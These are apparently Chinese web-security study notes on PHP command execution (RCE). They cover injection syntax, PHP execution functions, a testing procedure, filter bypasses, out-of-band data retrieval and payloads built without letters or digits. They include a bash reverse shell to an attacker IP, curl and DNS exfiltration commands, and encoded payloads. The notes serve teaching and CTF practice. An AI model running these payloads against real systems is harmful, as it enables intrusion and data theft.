

01NOTES · Web安全基础 · 2026.11.26
命令执行漏洞(RCE)
RCE 不是一种漏洞类别，而是攻击结果。从命令拼接与转义讲起，走过 PHP 的各个执行函数、测试流程、十来种绕过手法，再到无回显、无参数、无字母数字的取数方式。
命令执行一般发生在远程，故被称为远程命令执行，即RCE（Remote Command Exec），也被称为RCE（Remote Code Exec）。
RCE 不是一种漏洞类别，而是攻击结果。外部输入的数据，被服务器当成了代码或系统命令执行。
通过RCE可以实现：
偷数据（读系统文件、源码、数据库配置）。
反弹Shell（拿到交互式终端，像操作本地电脑一样）。
留后门（写入Webshell，哪怕漏洞被修了还能进来）。
当跳板（进入内网，攻击内网其他机器）。
我们经常通过SSRF、Log4j2、文件上传等漏洞，组合利用作为入口，最终触发RCE。
几篇文章： Linux知识点总结-CSDN博客
一、 命令执行的原理
在各类编程语言中，为了方便程序处理，通常会存在各种执行外部程序的函数，当调用函数执行命令且未对输入做过滤时，通过注入恶意命令，会造成巨大的危害。
比如：
system("echo".$_GET['d'])传参?d=for test%26%26whoami（注意一定要编码，&会被Web服务器直接当做分隔符），网页会多出whoami程序的执行结果，这是因为当前在系统执行的命令为“echo for test&&whoami”。
在各类编程语言中，“&&”是and语法的表达，类似的语法还有“||”表示or。
注意，它们存在惰性，在and语法中，若第一个表达式的结果为假，则第二个表达式不会执行，因为它恒为假。与or语法类比，若第一个表达式为真，则第二个表达式也不会执行，因为它恒为真。
命令注入就是通过注入一些特殊字符，改变原本的执行意图，从而执行攻击者指定的命令。
二、命令执行基础
2.1 转义字符
系统中的cmd.exe、bash程序执行命令能够解析很多特殊字符，它们的存在让BAT批处理和bash脚本处理工作更加便捷，但是如果想去掉特殊字符的特殊意义，就需要进行转义。
转义字符即为取消字符的特殊意义。
Windows的转义字符为“^”，Linux的转义字符为“\”。

2.2 多条命令执行
在命令注入中通常需要注入多条命令来扩大危害，所以需要利用一些特殊字符来拼接命令。
Windows下，&&、||、%0a
Linux下，&&、||、；、$()、``、%0a、%0d。
注：
%0a和%0d %0a：在 URL 编码中代表换行符（Line Feed，简称 LF），对应 ASCII 码的 10（十六进制 0A）。 %0d：在 URL 编码中代表回车符（Carriage Return，简称 CR），对应 ASCII 码的 13（十六进制 0D）。 在 Windows 系统中，通常用 %0d%0a 组合来表示真正的回车换行，而在 Linux 下 %0a 就足够了。WAF（防火墙）经常拦截 &&、||、; 这些符号，但很多时候会漏掉对 %0a（换行）的拦截。这是实战中非常经典的绕过技巧。
命令替换符：$()和反引号
在Linux下他们叫命令替换。遇到$()和\
\包裹的，先执行里面的内容，把执行结果拿出来，替换到当前位置，再执行整个大命令。 比如：echo "$(id)"，会先执行id命令，得到结果uid=0(root)...。然后把这个结果填进双引号里，变成echo "uid=0(root)..."。最后再执行echo。 注意：这里是双引号！！！在Linux中，双引号包裹的字符串“$()”或“\\”中的内容被当作命令执行，但是单引号包括的字符串就是纯字符串，不会进行任何解析。
2.3 注释符号
与代码注释一样，当合理利用时，命令执行能够使命令后面的其他字符成为注释内容。
Windows的注释符号为“::”，在BAT批处理脚本中用得较多
Linux的注释符号为“＃”，在bash脚本中用得较多。
2.4 PHP相关函数
PHP调用操作系统命令的函数
system(command, result_code)：
第一个参数必填，第二个参数为命令执行完的退出状态码（0代表成功）
命令执行的结果直接输出页面或终端
php<?php system("whoami"); //www-data $result = system("whoami"); echo "<br>PHP返回值："; var_dump($result); // string(8) "www-data" ?>$result接收命令输出的最后一行，作为函数返回值。失败返回false（函数的返回值跟函数本身输出一个字符串是两件事情）
shell_exec(string $command)：
执行命令，不会直接输出内容，需要配合
echo或print_r把结果显示出来；返回完整标准输出字符串；
没有输出或发生错误时可能返回 NULL，无法建立管道时可能返回 false，不能只凭 NULL 判断命令执行失败。
php<?php $result = shell_exec("id"); echo $result; //www-data print_r($result); ?>exec(string $command, array &$output, int &$result_code)：
执行命令，不能直接输出内容；函数返回值只返回命令结果的最后一行内容，配合 echo；
或者用第二个参数接收全部输出行（第二个参数
$output是一个引用传递的数组。exec()会将命令执行的每一行输出追加到这个数组中）php<?php $result = exec("whoami"); echo $result; //www-data ?> <?php exec("whoami", $output); print_r($output); // Array([0] => www-data) //因为 whoami 只输出了一行结果，所以数组只有一个元素 [0] => www-data ?>passthru(command,result_code)：
和system()类似；
执行命令，直接输出全部原始结果；特别适合输出二进制数据（如图片）
没有有效返回值（成功时返回
null，失败时返回false）php<?php passthru("whoami"); // www-data ?>
PHP 动态执行代码、动态调用函数
eval(string $code)：
如果禁用了上述这些系统命令执行函数，可以通过动态执行代码、动态调用函数，这些函数会把输入代码块语句块直接执行
把字符串当成 PHP 代码去执行，它本身不会自动输出内容
assert()：
这是 PHP 中的断言函数，主要用于检查一个预期条件是否成立，如果不成立（为
false），程序就会抛出AssertionError异常并中断。这在日常开发中用于调试。php<?php $age = 22; assert($age >= 18); // 如果 $age 小于 18，程序报错 echo "条件成立"; ?>在 PHP 8.0 之前的版本，assert函数存在一个特性：如果传入的参数是一个字符串，PHP 会把它当作 PHP 代码来执行（效果等同于
eval()），一旦参数可控就会导致任意代码执行。php<?php assert("echo 'Hello';"); ?> <?php $cmd = $_GET['cmd']; assert($cmd); // 传入 ?cmd=system('ls'); 即可执行系统命令 ?>注：
能否成功利用，受 PHP 版本和
php.ini中zend.assertions配置的双重限制：zend.assertions = 1：开启，断言代码正常编译和执行。zend.assertions = 0：生成但不执行代码。zend.assertions = -1：完全关闭（生产环境默认）。PHP 引擎在编译阶段会直接删掉（跳过）assert()里面的逻辑完全不执行。
call_user_func()
动态回调。用于调用函数，第一个参数是函数名(字符串形式)，第二个参数是函数参数。
php<?php function sayHello($$name) { echo "Hello, $$name!"; } call_user_func('sayHello', 'World'); // 输出: Hello, World! call_user_func('system','whoami'); //输出whoami的内容 call_user_func('phpinfo'); //执行phpinfo
三、命令执行的基本测试流程 (SOP)
我们需要确认命令注入点存在的位置，然后由于我们不清楚后端代码具体长什么样，所以需要通过各种Fuzz来确认黑名单和闭合之类，最终确认漏洞存在。
3.1 找可疑注入点
明确注入位置，知道哪个地方输入的数据会被当作参数执行。
黑盒测试： 有些业务功能，web程序自己用代码写不出来，必须得调用操作系统的底层命令，这些地方就是可能会存在命令注入的地方。 常见的：
网络诊断类（最常见）：比如网页上有个“Ping 测试”、“Traceroute 追踪”、“DNS 解析”。我们输入 IP，后台肯定是在跑
ping xxx。文件处理类：比如“图片压缩”、“格式转换”、“在线解压压缩包”、“文档预览”。后台可能在跑
convert xxx、tar -zxvf xxx。系统管理类：后台管理面板里的“重启服务器”、“查看系统日志”、“清空缓存”、“数据库备份”。
特殊组件：比如网站用了旧版的 Jenkins、旧版的 Webmin 面板，或者像Log4j2 这种第三方组件。
白盒审计： 有源码的情况肯定是先全局搜索“危险函数”，只要外部输入的数据（比如
$_GET、$_POST）没有经过严格过滤，直接进入了下面这些函数，那就是绝对的注入点：PHP：
system()、exec()、shell_exec()、passthru()、popen()、反引号 `Java：
Runtime.getRuntime().exec()、ProcessBuilder。Python：
os.system()、subprocess.Popen()。
3.2 Fuzz 测试
我们不清楚后端代码究竟是什么样的，往往需要Fuzz测试有无引号闭合，如何闭合，有哪些字符被过滤了等，去推测后端代码长什么样。如果它前端有回显，就直接根据回显判断就行了，但往往系统有容错机制（报错不显示在前端）或者他是一个盲注（没有回显），这个时候就要用到OOB（带外测试）。
考虑到效率，还有环境兼容性，我们做测试，一开始肯定是用的echo 123 或 whoami这样的简单命令去测试，如果有回显，那可以直接测。
如果没有回显，再换上包含 VPS/DNSLog 的 Fuzz 字典测试，如果有动静，证明漏洞存在且能出网。接下来就是直接反弹 Shell，万事大吉。
但就算都没动静也不能完全断定没有漏洞，得考虑是不是出网受限（只准 DNS，不准 HTTP），或者根本就没装 curl，或者curl、wget 这种外带命令被WAF被拦截了。
四、RCE的绕过
4.1 空格绕过
ASCII空格（0x20）
url编码：%09(Tab) %20(space)
$IFS： 一个环境变量，叫做内部字段分隔符，是 Shell 用来拆分参数的分隔符变量（默认含空格、Tab、换行），能靠触发词拆分代替空格分隔命令和参数（如
cat$IFS$9/flag）。常见的写法：${IFS}，$IFS$9 (系统shell进程第九个参数的持有者，通常为空)
加上
$9或${IFS}主要是为了划清变量名边界、防止被当成新变量名花括号扩展： 比如{cat,/flag}，Shell 在执行前会把逗号分隔的花括号展开成 cat /flag
局限：依赖支持花括号扩展的 shell，比如dash 不支持， bash支持
重定向字符：
<输入重定向 cat</flag，把<后面跟的文件取代键盘作为新的输入设备；>输出重定向 cat /flag > 1.txt
4.2 编码绕过
绕过一些关键字，常见的有：
base64绕过
Hex编码（纯16进制ASCII码-一串数字）
shellcode编码（\x开头的16进制转义）
4.3 通配符绕过
常见的通配符：
*：匹配 0 个或多个任意字符（如 ”/f*“ 匹配 ”/flag“）。?：匹配单个任意字符（如 ”/fl?g“ 匹配 “/flag”）。[...]：匹配方括号内单个字符（如"fl[a-c]g" 匹配"flag","flbg","flcg"）[!...]或[^...]表示取反{a,b}：匹配大括号内的任意一个字符串（ 如："fl{abc,def}g"匹配"flabcg","fldefg"）
4.4 Shell 语法解析绕过
利用 PHP 过滤与 Shell 实际1解析之间的差异。
空引号与分段引号拼接
写法：
ca""t /fl''ag、c"a"t /f'l'agPHP正则检查看到的是被引号打断的片段，匹配不到连续的
cat或flag；Shell 解析时会去掉成对引号，拼回完整命令与路径。反斜杠转义
写法：
ca\t /fl\ag普通字母前的
\在 Shell 中不改变字母本身含义，但会打断正则对连续字符串的匹配。变量拼接绕过
写法：
a=l;b=s;$a$b、b=fl;cat /${b}ag变量后面紧跟普通字母时要用大括号
{}隔开（如${b}ag），否则 Shell 会去读取名为$bag的变量。
4.5 环境变量拼接
不直接写敏感词，而是从系统环境变量或已有变量里“截取/删减”出需要的字符，再拼成命令或文件名。
环境变量 Linux 系统运行起来后，默认会在后台存一堆“全局变量”（比如当前路径、语言设置、系统目录等），在命令行敲 env 就能全看出来，用 $变量名 就能直接取它的值。
${变量:起始:长度}#、##、%、%%：用前缀/后缀匹配删除来截取想要的字符，#删前，%删后，单写就是只匹配一次，双写就是尽可能多次匹配，直至没有。
示例：
比如系统里有环境变量 LANG=en_US.UTF-8，标好下标：
0:e 1:n 2:_ 3:U 4:S 5:. 6:U 7:T 8:F 9:- 10:8
比如想凑字母 U、T、F：
${LANG:3:1}→U${LANG:7:1}→T${LANG:8:1}→F
echo ${LANG:3:1}${LANG:7:1}${LANG:8:1}
# 展开后是：echo UTF比如想只留后缀 UTF-8（删掉前面的 en_US.，共 6 个字符）:
${LANG:6}（从索引 6 到结尾）→UTF-8或者用
#从左删到.：${LANG#*.}→UTF-8
4.6 环境变量注入
当命令本身写死或不可控，但环境变量可控时，利用 Shell 或动态链接器加载环境变量的机制，把恶意代码/命令塞进去执行。
LD_PRELOAD劫持共享库（常用于绕过disable_functions）进程启动或加载动态库时，若设置了
LD_PRELOAD，会优先加载指定的.so文件并执行其中的构造函数/劫持函数。利用条件：需要能写入
.so文件（如配合文件上传点，后缀名往往不限），且后续有会加载该库或启动新进程的函数/命令被触发。通过特殊环境变量注入命令（结合 Shell 特性）
PHP 的
system()底层常通过popen()调用/bin/sh -c "..."。不同系统下/bin/sh指向不同（Debian/Ubuntu 常见dash，CentOS/RHEL 常见bash），可利用的环境变量也分场景：BASH_FUNC_导入函数（重点，CentOS / Bash 场景常见）原理：Bash 启动初始化环境变量时，会识别特定格式的变量名并注册成 Shell 函数；如果定义的函数名和后面执行的命令同名（比如覆盖
echo），执行原命令时就会跑进注入的函数体。常见写法差异（与 ShellShock 修复补丁和版本有关）：
Bash 4.4 及以上：
BASH_FUNC_echo%%=() { id; }部分打了补丁的 Bash 4.2（如 CentOS 7）：
BASH_FUNC_echo()=() { id; }未修复 ShellShock 的老版本：可直接用函数定义后跟命令的格式测试。
启动/交互相关变量（受限于启动参数或交互模式）
BASH_ENV：非交互式bash -c时可触发，但若以sh名义调用（act_like_sh为真）通常不会走这条逻辑。ENV：多在交互式或带-i参数（如sh -i -c）时生效，普通sh -c下往往不触发。PS1/PROMPT_COMMAND：偏交互式 Shell 场景，非交互-c场景局限较大。
五、执行无回显
命令在后台执行了，但页面不显示结果。解决方向是把结果写到能看的地方、带出来，或者靠时间/行为判断。
5.1 写入 Web 可访问目录
做法：把命令输出重定向到 Web 根目录下的文件，再通过浏览器访问该文件。
示例：
cat /flag > /var/www/html/o.txt（随后访问对应网页查看o.txt）。前提与坑：目标目录要有写权限、知道 Web 路径，且文件名别和敏感词冲突（若
/flag读不到，先看ls或环境变量）。
5.2 反弹 Shell
让靶机连回你的机器
做法：攻击机先监听端口，让靶机主动连接过来并把输入输出重定向到连接上。
常见监听与连接写法：
监听端：
nc -lvvp 2333靶机端（Bash 示例）：
bash -i >& /dev/tcp/你的公网IP/2333 0>&1
5.3 带外外带
DNS / HTTP，适合无回显且不方便弹 Shell
做法：让靶机请求你可控的域名/地址，把结果拼在子域名或参数里带出来。
示例：
DNS 外带（适合短结果、无特殊字符）：`
ping -c 1whoami.xxxx.dnslog.cn或curl http://whoami.xxxx.dnslog.cn`HTTP 外带：`
curl http://你的IP:端口/?d=cat /flag | base64
5.4 时间盲注
出不去外网、也没法写 Web 目录时
做法：用条件判断配合
sleep制造响应延迟，逐位或按条件猜解结果。示例：
if [ "$(whoami)" = "www-data" ]; then sleep 3; fi
六、无参数RCE
代码里限制了不能传参数（比如正则拦截了 (...) 里面的参数、要求函数调用不带参数，或只能用嵌套函数/无参函数组合出路径和读取操作）。
常见思路是用“无参函数一层套一层”获取当前目录/文件内容（以 PHP 为例）：
查看当前目录文件列表：
print_r(scandir('.'));或print_r(scandir(getcwd()));（若.被过滤，常用chr(46)、current(localeconv())等方式构造当前目录.）。
读取文件内容（配合数组指针/反转函数）：
典型套路：用
scandir()拿到文件名数组 → 用end()/array_reverse()/next()/array_rand()等把目标文件名（如flag.php）挑出来 → 套上readfile()、file_get_contents()、highlight_file()、show_source()直接读出内容。示例结构：
show_source(next(scandir(getcwd())));（视目录文件顺序调整指针函数）。
通过超全局变量拿输入（当参数受限时）：
某些情况下可利用
getallheaders()、end(get_defined_vars())等获取请求头或变量中的可控数据再执行。
七、无字母数字RCE
输入被严格过滤，字母和数字都不能直接出现（常见正则如 /[a-z0-9]/i），但符号（如 ~、^、.、$、_、'、"、(、)、;、+、- 等）还可用，于是用符号运算或编码在运行时拼出字母和命令。
常见有 4 条路线（按 PHP 版本和可用字符选）：
1. 取反绕过（~）—— 适合 PHP 7 常见场景
对不可见字符或特殊符号做按位取反 ~(...)，结果可以还原出可打印的英文字母和函数名。
常见写法：(~%8C%86%8C%9B%9A%8B)();（本质是把取反后的字节拼成 system 并调用，后面再拼参数）。
2. 异或绕过（^）
两个非字母数字字符做按位异或 ^，可能得到英文字母（例如某些符号异或后变成 a–z），拼出函数名后动态调用。
3. 自增绕过（++）
在 PHP 中，某些字符串或 'a' 经过自增 ++ 会变成 'b'、'c'……一路拼出需要的字母。
4. 临时文件上传 + 通配符/点号（不靠拼字母，直接打刚上传的文件）
PHP 处理 multipart/form-data 文件上传时，会把临时文件存到 /tmp/phpXXXXXX（最后一位通常是大写字母）。
如果正则只拦了小写字母和数字（比如 /[a-z0-9]/），大写字母没拦，就可以用 .[!a-z] 或 /?*[A-Z] 之类的通配符匹配临时文件并执行（比如 . /tmp/php??????）。